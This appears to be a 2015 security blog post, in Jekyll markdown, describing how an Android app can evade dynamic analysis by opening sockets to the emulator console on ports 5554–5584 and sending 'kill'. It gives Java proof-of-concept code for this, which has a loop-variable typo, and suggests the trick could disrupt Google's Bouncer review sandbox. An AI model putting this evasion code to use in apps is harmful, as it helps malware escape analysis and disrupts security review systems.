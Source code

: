 ```yaml
---
layout: post
title:  "Using the Android qemu console for dynamic analysis evasion"
date:   2015-02-10 17:34:24
comments: true
categories: android security malware
---
```



I've been playing with the android emulator recently and I kept thinking about
how malwares could be using that emulator console to - quite aggresively -
evade dynamic analysis by just killing the emulator that is used to analyze
them.

I wrote a simple application example that will kill the emulator when you run
the application in it, whatever the port on which the emulator is listening.

The example I provide is really simple but I really like the idea of just
keeping annoying a malware reverser by killink its sandbox :)

### Sample application

{% highlight java linenos %}
public class MainActivity extends Activity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        new Connection().execute();
    }

    private class Connection extends AsyncTask {
        @Override
        protected Object doInBackground(Object... arg0) {
            evade();
            return null;
        }
    }

    private void evade() {
        try{
            for(int port=5554; port <= 5584; i+=2) {
                Socket s = new Socket("10.0.2.2", port);
                BufferedWriter out = new BufferedWriter(
                    new OutputStreamWriter(s.getOutputStream())
                );
                out.write("kill\n");
                out.flush();
                out.close();
                s.close();
            }
        } catch (Exception ex) {
            ex.getMessage();
        }
    }
}
{% endhighlight %}

In this example, the application will try to connect to any port where an
emulator is allowed to listen and issue a `kill` command if connection is
successful.

### Examples in the wild

I've never heard of any Android malwares using this kind of technique but if
you have some good examples, please let me know !

### Security Impact

I'm not sure there is any real security impact here but as Bouncer is using
this emulator to perform dynamic analysis of applications being pushed to the
Google Play, it might be possible to make Bouncer go crazy by uploading a
malicious application.
